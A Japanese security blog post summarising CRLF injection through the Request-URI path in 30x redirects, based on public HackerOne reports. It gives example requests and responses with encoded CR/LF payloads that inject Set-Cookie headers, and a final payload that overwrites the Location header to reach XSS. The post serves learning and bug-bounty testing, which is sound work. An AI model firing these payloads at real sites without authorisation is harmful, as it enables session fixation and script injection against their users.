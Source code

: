 # Request-URIのパスからのCRLFインジェクション

<p class="modest" align="left">Feb 14, 2018</p>

---

ロシアのバグハンターであるSergey Bobrov氏（[@Black2Fan](https://twitter.com/Black2Fan)）が[HackerOneで公開しているレポート](https://hackerone.com/bobrov?sort_type=latest_disclosable_activity_at&filter=type%3Apublic&page=1&range=forever)を読んでいると、私が今まで認識しなかった方法でCRLFインジェクションを検出していた。後学のためにまとめておく。

## パラメータからのCRLFインジェクション

私が今まで行なっていた方法は、パラメータの値がレスポンスヘッダに出力される箇所で、値に改行コードを含めて確認するだけだった。値がSet-CookieヘッダやLocationヘッダに含まれるパラメータを対象に、[RFCでヘッダフィールドの終端として認められている](http://httpwg.org/specs/rfc7230.html#message.robustness) `CRLF`（%0D%0A）と `LF`（%0A）に加え、Firefoxを除く主要ブラウザ<sup id="f1">[¹](#fn1)</sup>で終端として扱われる `CR`（%0D）も含めて確認していた。具体的には以下のような動作である。

hxxp://example.jp/?l=en%0D%0ASet-Cookie:crlf=injection

```http
GET /?l=en%0D%0ASet-Cookie:crlf=injection HTTP/1.1
Host: example.jp
...
```

```http
HTTP/1.1 200 OK
Date: Sun, 11 Feb 2018 00:00:00 JST
Server: Apache
Set-Cookie: lang=en
Set-Cookie:crlf=injection
...
```

## パスからのCRLFインジェクション

Bobrov氏が行なっていたのは、30xリダイレクトが発生する箇所でRequest-URIのパスに改行コードを含め、Locationヘッダの出力を確認する方法だった。レポートのリダイレクト処理に注目すると以下のケースに分けられる。

- HTTPSへのリダイレクト
- 異なるホストへのリダイレクト
- トレイリングスラッシを削除するリダイレクト

各ケースでのCRLFインジェクションについてレポートを参考にまとめていく。

### HTTPSへのリダイレクト

HTTPSのページにHTTPで接続すると、HTTPSへのリダイレクトが発生する箇所でのケースである。その際のパスに改行コードを含めることで、Locationヘッダの出力で改行できる場合がある。以下は[Sucuriへのレポート](https://hackerone.com/reports/144769)を参考にした例である。

hxxp://support.example.net/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: support.example.net
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Tue, 14 Jun 2016 19:56:14 GMT
Server: Apache
Location: https://support.example.net/#
Set-Cookie:crlf=injection
...
```

改行コードの手前に `#`（%23）を含めているのは、それ以降がフラグメントとして処理され、Locationヘッダに出力されたからだと考える。パスやクエリは出力しないようにしていた、または改行コードをエスケープして出力していたが、通常サーバに送信されないフラグメントは想定外だったのだろうか。

[Trelloへのレポート](https://hackerone.com/reports/45514)のようにHTTPSからHTTPへのリダイレクトという逆のケースもあった。

### 異なるホストへのリダイレクト

接続したホストから別のホスト、または特定のパスへリダイレクトする箇所でのケースである。以下は[ownCloudへのレポート](https://hackerone.com/reports/154306)を参考にした `api.example.org` から `doc.example.org/api/` へのリダイレクトでの例である。

hxxps://api.example.org/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: api.example.org
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Wed, 27 Jul 2016 10:28:01 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000
X-Xss-Protection: 1; mode=block
Location: https://doc.example.org/api/#
Set-Cookie:crlf=injection
...
```

過去に使われていたホストから現在のホストへの変更処理だろう。この他にも[Mail.Ruへのレポート](https://hackerone.com/reports/15492)のような `example.jp` から `example.jp/en/` への言語変更や、[Greenhouse.ioへのレポート](https://hackerone.com/reports/25275)のような `example.jp` から `www.example.jp` へのサブドメインの変更でも検出されている。

### トレイリングスラッシュを削除するリダイレクト

パスの末尾にある `/` を[トレイリングスラッシュ](https://webmasters.googleblog.com/2010/04/to-slash-or-not-to-slash.html)と呼ぶ。このトレイリングスラッシュがある場合は通常ディレクトリを指し、ない場合はコンテンツを指す。サイトによっては `/about/` のようなディレクトリの要求に対して、トレイリングスラッシュを削除して `/about` のようなコンテンツの要求へ変更する場合がある。以下は[Mail.Ruへのレポート](https://hackerone.com/reports/67386)を参考にしたトレイリングスラッシュを削除する際のリダイレクトでの例である。

hxxp://m.my.example.jp/crlftest%0DSet-Cookie:crlf=injection/

```http
GET /crlftest%0DSet-Cookie:crlf=injection/ HTTP/1.1
Host: m.my.example.jp
...
```

```http
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Sat, 11 Jun 2016 00:00:00 GMT
Content-Type: text/html
Location: http://m.my.example.jp/crlftest
Set-Cookie:crlf=injection
...
```

この例は `crlftest` という存在しないコンテンツを要求したケースだが、存在するコンテンツを要求した場合のみトレイリングスラッシュを削除する箇所もある。これとは逆にトレイリングスラッシュを追加する際にリダイレクトが発生する箇所もある。そのような箇所でもパスから改行コードを挿入できる可能性はある。

## CRLFインジェクションによるLocationヘッダの上書き

Bobrov氏のレポートのなかで[Starbucksへのレポート](https://hackerone.com/reports/192667)だけが、リダイレクトを止めてXSSにつなげていた。リダイレクトを止める方法はブラウザごとに異なるため、レポートではChromeとFirefoxのPoCを示している。以下はFirefoxの例である。

hxxp://stagecafrstore.example.com/%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E

```http
GET /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E HTTP/1.1
Host: stagecafrstore.example.com
...
```

```http
HTTP/1.1 301 Content-moved
Date: Tue, 20 Dec 2016 08:40:11 GMT
Server: WebServer
X-Original-link: /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
X-XSS-Protection: 0
Location: //x:1
Content-Type: text/html
Content-Length: 98

<script>alert(document.domain)</script>
Content-Length: 0
X-OneLinkServiceType: onelink.fcgi
...
```

この例では `?`（%3F）と `CRLF`（%0D%0A）の後にLocationヘッダを挿入している点が興味深い。本来はHTTPSのページまたは異なるホストへのLocationヘッダが出力されていたが、CRLFインジェクションによってLocationヘッダを上書きできたのだろう<sup id="f2">[²](#fn2)</sup>。Locationヘッダを上書きしてリダイレクト先に `:1` のような[ブロック対象のポート](https://developer.mozilla.org/en-US/docs/Mozilla/Mozilla_Port_Blocking)を設定することで、リダイレクトを止めてレスポンスボディを表示させている<sup id="f3">[³](#fn3)</sup>。ChromeではLocationヘッダの値を空にすることでリダイレクトを止めていた。Request-URIのパスからのCRLFインジェクションでも、Locationヘッダを上書きできるケースはあるようだ。

## 所感

プログラム言語やフレームワークでの対策によって、CRLFインジェクションは作り込まれにくい脆弱性になったと考えていた。最近の診断でもほとんど見かけることはなかった。しかし、今回取り上げた事例は最近でも検出される場合があり、HackerOneでは他にもレポートが公開されている。Zeronights 2017の「[CRLF and OpenRedirect](https://speakerdeck.com/shikarisenpai/crlf-and-openredirect-for-dummies)」でも、この事例は取り上げられていた。これだけ検出されているのだから、今後バグバウンティの対象になるサイトでも検出されるだろう。スコープ内であれば認定される可能性が高い脆弱性なので狙い目だ。

---

<sup id="fn1">[¹](#f1)</sup> Chrome64、Safari11、Edge41、IE11は `CR` をヘッダフィールドの終端として扱っていた。  
<sup id="fn2">[²](#f2)</sup> 徳丸本のP.195「外部ドメインへのリダイレクト」にあるようなCGI特有の動作だと考える。  
<sup id="fn3">[³](#f3)</sup> はせがわさんが[ポートブロッキングを使う方法](http://d.hatena.ne.jp/hasegawayosuke/20161210/p1)をまとめている。

